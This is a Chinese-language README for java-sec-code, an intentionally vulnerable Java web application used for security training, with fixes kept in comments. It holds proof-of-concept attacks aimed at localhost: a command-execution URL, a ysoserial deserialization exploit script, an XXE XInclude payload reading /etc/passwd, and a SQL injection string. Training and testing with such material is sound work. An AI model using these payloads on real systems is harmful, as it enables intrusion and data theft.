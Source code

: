 # Java Security Code

## 介绍

该项目也可以叫做Java Vulnerability Code(Java漏洞代码)。

每个漏洞类型代码默认存在安全漏洞（除非本身不存在漏洞），相关修复代码在注释里。具体可查看每个漏洞代码和注释。

## 漏洞代码

- [XXE](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XXE.java)
- [SSRF](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/SSRF.java)
- [URL重定向](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/URLRedirect.java)
- [IP伪造](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/IPForge.java)
- [XSS](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XSS.java)
- [CRLF注入](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/CRLFInjection.java)
- [远程命令执行](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/Rce.java)
- [反序列化](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/Deserialize.java)
- [文件上传](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/FileUpload.java)

## 如何运行


### Tomcat

1. 生成war包 `mvn clean package`
2. 将target目录的war包，cp到Tomcat的webapps目录
3. 重启Tomcat应用


```
http://localhost:8080/java-sec-code-1.0.0/rce/exec?cmd=whoami
```
 
返回

``` 
Viarus
```

### IDEA

如果想在IDEA中直接运行，需要在IDEA中添加Tomcat配置，步骤如下：

```
Run -> Edit Configurations -> 添加TomcatServer(Local) -> Server中配置Tomcat路径 -> Deployment中添加Artifact选择java-sec-code:war exploded
```

![tomcat](https://github.com/JoyChou93/java-sec-code/raw/master/idea-tomcat.png)

配置完成后，右上角直接点击run，即可运行。

```
http://localhost:8080/rce/exec?cmd=whoami
```
 
返回

``` 
Viarus
```


## SSRF

针对SSRF具体利用，可以阅读我写的[这篇博文](https://joychou.org/java/javassrf.html)。

## 反序列化

打包ysoserial

``` 
git clone https://github.com/frohoff/ysoserial.git
mvn clean package -DskipTests
```

执行exp

```python
#coding: utf-8
#author: JoyChou
#date:   2018.07.17

import requests
import subprocess

def poc(url , gadget, command):
	ys_filepath = '/Users/Viarus/Downloads/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'
	popen = subprocess.Popen(['java', '-jar', ys_filepath, gadget, command], stdout=subprocess.PIPE)
	payload = popen.stdout.read()
	r = requests.post(url, data=payload, timeout=5)

if __name__ == '__main__':
	poc('http://127.0.0.1:8080/deserialize/test', 'CommonsCollections5', 'open -a Calculator')
```

## 文件上传

目前这类漏洞在spring里非常少，原因有两点：
1. 大多数公司上传的文件都会到cdn
2. spring的jsp文件必须在web-inf目录下才能执行

除非，可以上传war包到tomcat的webapps目录。所以就不YY写漏洞了。

访问`http://localhost:8080/file/`进行文件上传，上传成功后，再访问`http://localhost:8080/image/上传的文件名`可访问上传后的文件。

## XXE

2018年08月22日更新支持XInclude的XXE漏洞代码，详情见代码。

POC

```xml
<?xml version="1.0" ?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

URL编码后

``` 
http://localhost:8080/xxe/DocumentBuilder_xinclude?xml=%3C%3fxml+version%3d%221.0%22+%3f%3E%0d%0a%3Croot+xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3E%0d%0a+%3Cxi%3ainclude+href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22+parse%3d%22text%22%2f%3E%0d%0a%3C%2froot%3E
```

## SQL注入

POC

``` 
http://localhost:8080/sqli/jdbc?name=joychou' or 'a'='a
```

返回`joychou: 123 wilson: 456 lightless: 789`

正常访问`http://localhost:8080/sqli/jdbc?name=joychou`，返回`joychou: 123`

数据库配置：

```sql
/*
 Navicat Premium Data Transfer

 Source Server         : localhost
 Source Server Type    : MySQL
 Source Server Version : 80012
 Source Host           : localhost:3306
 Source Schema         : sectest

 Target Server Type    : MySQL
 Target Server Version : 80012
 File Encoding         : 65001

 Date: 22/08/2018 21:09:57
*/

SET NAMES utf8mb4;
SET FOREIGN_KEY_CHECKS = 0;

-- ----------------------------
-- Table structure for users
-- ----------------------------
DROP TABLE IF EXISTS `users`;
CREATE TABLE `users` (
  `name` varchar(255) NOT NULL,
  `password` varchar(255) NOT NULL,
  `isAdmin` varchar(255) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_0900_ai_ci;

-- ----------------------------
-- Records of users
-- ----------------------------
BEGIN;
INSERT INTO `users` VALUES ('joychou', '123', '1');
INSERT INTO `users` VALUES ('wilson', '456', '0');
INSERT INTO `users` VALUES ('lightless', '789', '0');
COMMIT;

SET FOREIGN_KEY_CHECKS = 1;

```

说明：

SQL注入修复方式采用预处理方式，修复见代码。
Mybatis的`#{}`也是预处理方式处理SQL注入。